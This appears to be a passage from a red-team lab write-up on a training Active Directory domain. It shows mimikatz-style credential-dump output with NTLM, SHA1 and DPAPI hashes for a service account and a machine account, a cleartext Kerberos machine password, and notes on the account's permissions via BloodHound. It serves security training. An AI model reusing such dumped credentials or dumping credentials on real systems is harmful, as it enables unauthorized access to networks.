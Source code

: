 ```powershell
Logon Time        : 11/22/2023 8:00:13 PM
SID               : S-1-5-21-210670787-2521448726-163245708-8602
        msv :
         [00000003] Primary
         * Username : provisioningsvc
         * Domain   : US
         * NTLM     : 44dea6608c25a85d578d0c2b6f8355c4
         * SHA1     : cb6a8c895958c1958de9f2cf5aae0cddd1962a56
         * DPAPI    : d0261701e179de1ae56c508312f42aaf
        tspkg :
        wdigest :
         * Username : provisioningsvc
         * Domain   : US
         * Password : (null)
        kerberos :
         * Username : provisioningsvc
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 29609 (00000000:000073a9)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 11/22/2023 8:00:09 PM
SID               : S-1-5-96-0-1
        msv :
         [00000003] Primary
         * Username : US-MAILMGMT$
         * Domain   : US
         * NTLM     : 6e1c353761fff751539e175a8393a941
         * SHA1     : 0e4cb5977d5a8451f8faf85649764adba667de70
        tspkg :
        wdigest :
         * Username : US-MAILMGMT$
         * Domain   : US
         * Password : (null)
        kerberos :
         * Username : US-MAILMGMT$
         * Domain   : us.techcorp.local
         * Password : B_m3`Y;Rg:!pB)rM>nGYT7w^0/!CvL1@@+vA%:ajlT7@t@ESSs0*Vmg_9qyrcccQbdG-PLPw*PzNoPu`n$(*$2+O)'\HiL;VD.4N;X0$Qv%r KKNy"a:O]ES
        ssp :
        credman :

<snip>
```
# 7. Rights, Privileges and Permissions of `us\provisioningsvc`
## 7.1 Access Rights
- No interesting access rights exist for this domain account.
## 7.2 Account Privileges
- This account does not have any special privileges.
## 7.3 Account Permissions
- Using **BloodHound** we can see the following: